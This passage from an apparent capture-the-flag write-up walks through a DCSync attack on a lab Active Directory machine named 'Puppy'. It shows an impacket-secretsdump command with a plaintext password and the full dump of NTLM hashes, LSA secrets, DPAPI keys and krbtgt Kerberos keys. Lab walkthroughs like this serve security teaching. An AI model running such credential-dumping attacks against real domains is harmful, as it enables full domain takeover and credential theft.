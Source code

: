 Our new user has DcSync priviliges.

We will now perofrm a a DcSync attack and extract the NTLM hash of the Administrator account.

But first guys, I wanna share something with you that maybe it will help you a lot when it comes to commands and types of attacks. It’s a mindmap that resume many things in AD.

https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg

Let’s go back to our attack now. It’s easy and straight forward.

```bash
└─$ impacket-secretsdump 'puppy.htb'/'steph.cooper_adm':'FivethChipOnItsWay2025!'@'puppy.htb'                      
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
[*] NL$KM 
 0000   DD 1B A5 A0 33 E7 A0 56  1C 3F C3 F5 86 31 BA 09   ....3..V.?...1..
 0010   1A C4 D4 6A 3C 2A FA 15  26 06 3B 93 E0 66 0F 7A   ...j<*..&.;..f.z
 0020   02 9A C7 2E 52 79 C1 57  D9 0C D3 F6 17 79 EF 3F   ....Ry.W.....y.?
 0030   75 88 A3 99 C7 E0 2B 27  56 95 5C 6B 85 81 D0 ED   u.....+'V.\k....
NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
Administrator:aes128-cts-hmac-sha1-96:2c74b6df3ba6e461c9d24b5f41f56daf
Administrator:des-cbc-md5:20b9e03d6720150d
krbtgt:aes256-cts-hmac-sha1-96:f2443b54aed754917fd1ec5717483d3423849b252599e59b95dfdcc92c40fa45
```